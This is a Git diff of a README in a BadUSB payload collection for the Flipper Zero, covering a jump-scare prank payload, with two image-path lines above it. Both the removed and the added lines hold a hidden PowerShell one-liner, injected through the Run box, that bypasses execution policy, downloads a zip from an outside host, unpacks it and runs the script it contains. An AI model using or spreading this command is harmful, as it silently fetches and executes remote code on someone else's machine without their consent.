

Before and after one commit to I-Am-Jakoby/Flipper-Zero-BadUSB, a Markdown page: Payloads/Flip-JumpScare-2.0/ReadMe.md, the part around the change. GitHub-like rendering.

````diff
--- a/Payloads/Flip-JumpScare-2.0/ReadMe.md
+++ b/Payloads/Flip-JumpScare-2.0/ReadMe.md
@@ -47,7 +47,7 @@ When a mouse movement is detected, that video will be played in the PowerShell c
 * Plug in your device
 * Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
 ```
-powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://jakoby.lol/kiv' -O "$D\js.zip";Expand-Archive "$D\js.zip" -Des $D -Force;. "$D\js\js.ps1"
+powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";irm -Uri 'https://jakoby.lol/kiv' -O "$D\js.zip";Expand-Archive "$D\js.zip" -Des $D -Force;. "$D\js\js.ps1"
 ```
 
 <p align="right">(<a href="#top">back to top</a>)</p>
````
